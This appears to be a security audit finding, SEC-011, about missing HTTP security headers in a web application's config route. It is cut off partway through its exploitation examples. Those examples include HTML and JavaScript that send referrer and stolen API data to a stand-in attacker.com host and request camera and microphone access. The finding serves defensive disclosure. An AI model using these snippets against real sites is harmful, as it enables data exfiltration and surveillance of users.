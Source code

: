 # 🟡 SEC-011: Incomplete Security Headers

## 📋 Basic Information

| Field | Value |
|-------|-------|
| **Vulnerability ID** | SEC-011 |
| **Severity** | Medium |
| **CVSS Score** | 4.8 |
| **Component** | HTTP Security |
| **Location** | `app/api/config/route.ts:6-12` |
| **Discovery Date** | 10/04/2025 |
| **Status** | Open |

## 🎯 Description

Missing important security headers such as `Referrer-Policy`, `Permissions-Policy`, and `Cross-Origin-Embedder-Policy`. This incomplete header configuration leaves the application vulnerable to information leakage, cross-origin attacks, and privacy violations.

### Potential Impact

- Information leakage through referrer headers
- Unauthorized cross-origin embedding
- Cross-origin resource sharing vulnerabilities
- Privacy violations through browser feature access
- Reduced security posture against modern web threats

### Exploitation Examples

```html
<!-- Information leakage through missing Referrer-Policy -->
<!-- Attacker can track user navigation across sites -->
<img src="https://attacker.com/track?referrer=document.referrer" />

<!-- Cross-origin embedding due to missing COOP/COEP -->
<!-- Attacker can embed the site in malicious contexts -->
<iframe src="https://yourapp.com/sensitive-page"></iframe>

<!-- Browser feature access due to missing Permissions-Policy -->
<!-- Malicious scripts can access camera, microphone, etc. -->
<script>
  navigator.mediaDevices.getUserMedia({ video: true, audio: true })
    .then(stream => {
      // Send video to attacker server
    });
</script>

<!-- Cross-origin data theft due to missing CORP -->
<script>
  fetch('https://yourapp.com/api/sensitive-data')
    .then(response => response.json())
    .then(data => {
      // Send data to attacker
      fetch('https://attacker.com/steal', {
        method: 'POST',
        body: JSON.stringify(data)
```